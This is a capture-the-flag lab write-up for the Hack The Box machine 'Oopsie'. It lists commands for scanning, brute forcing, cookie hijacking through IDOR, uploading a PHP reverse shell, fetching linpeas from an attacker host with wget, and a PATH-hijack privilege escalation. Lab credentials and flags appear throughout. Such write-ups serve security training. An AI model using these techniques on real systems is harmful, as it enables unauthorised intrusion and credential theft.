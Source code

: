 # Oopsie 

> Ver Easy | Linux 

<br>

### Process:

1. port scan:
	- `sudo nmap -T4 -p- 10.10.10.28` 
	- `sudo nmap -T4 -A -p 22,80 10.10.10.28` 
2. enumerate port 22:
	- try anonymous connection - failed
	- read banner = SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
3. enumerate port 80:
	- visit website `http://10.10.10.28`
		- found "admin" username
	- run gobuster: `gobuster dir -u http://10.10.10.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,bak,conf,txt`
	- check for robots.txt - none 
	- run nikto scan: `nikto -h 10.10.10.28`
		- found "/cdn-cgi/login/" page
	- inspect source code 
	- run gobuster against "/cdn-cgi" directory 
	- run gobuster against "/cdn-cgi/login" directory 
4. try to brute force admin login:
	- web login with hydra: `hydra 10.10.10.28 http-post-form "/cdn-cgi/login/login.php:username=^USER^&password=^PASS^:Log in" -l admin -
P /usr/share/wordlists/rockyou.txt -f -V` -- failed
	- SSH login with hydra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.28 -T4` -- failed
5. used admin credentials found on last box [[achetype]]:
	- "admin:MEGACORP_4dm1n!!" -- sucess
6. check out Uploads tab:
	- need to be super admin to upload files
7. inspect Account tab:
	- displays access ID, name, and email
	- found admin account with cookies:
		- user: 34322
		- role: admin
	- these cookies values correspond with values in Accounts table 
	- try to find super admin account:
		- send request to Burp intruder
		-  select the "id" parameter
		-  set a Numbers type payload and enumerate from 1 to 100 with a step of 1
	- found super admin at `http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=30`
	- hijack cookie values:
		- user: 86575
		- role: super admin
	- can now upload files
8. try to upload PHP reverse shell:
	- download shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
	- make changes and upload with hijacked cookies on `http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads&action=upload` page
	- then setup listener and navigate to `http://10.10.10.28/uploads/r.php` to execute ("r.php" is the name of the PHP reverse shell)
9. get user flag:
	- `cd /home/robert` -> `cat user.txt`
	- user flag = **f2c74ee8db7983851ab2a96a44eb7981**
10. get root flag:
	- stablise shell: `python3 -c 'import pty;pty.spawn("/bin/sh")'` -> `bash -i`
	- esclate privileges:
		- upload linpeas: `cd /var/tmp && wget http://10.10.14.93:8080/linpeas.sh`
		- run linpeas: `chmod +x linpeas.sh && ./linpeas.sh`
	- check the "db.php" file already found when enumerating website (for credentials)
		- found "robert:M3g4C0rpUs3r!"
	- login as robert: `su robert` -> [password]
	- find out what groups robert is apart of: `id`
		- "bugtracker" group
		- find bugtracker binary: `find / -type -f -group bugtracker 2> /dev/null`
		- has SUID bit set to run as root 
	- find out what program does when run: `/usr/bin/bugtracker` -- report bugs based on user provided ID
	- find out how it does this with strings: `strings /usr/bin/bugtracker`
		- calls the `cat` binary with a relative path (rather than absolute)
		- so can add a malicious cat program to call by chaging the PATH
	- exploit "bugtracker":
		- a) change PATH to add current directory first: `export PATH=/tmp:$PATH`
		- b) create a malicious "cat" binary that will be called: `cd /tmp && echo '/bin/bash' > cat && chmod +x cat`
		- c) run bugtracker: `/usr/bin/bugtracker`
	- get root flag:
		- `/bin/cat /root/root.txt`
		- root flag = **af13b0bee69f8a877c3faf667f7beacf**
11. post-exploitation:
	- in "/root/.config/filezilla" found FTP credentials in plaintext
	- "ftpuser:mc@F1l3ZilL4"

	
	
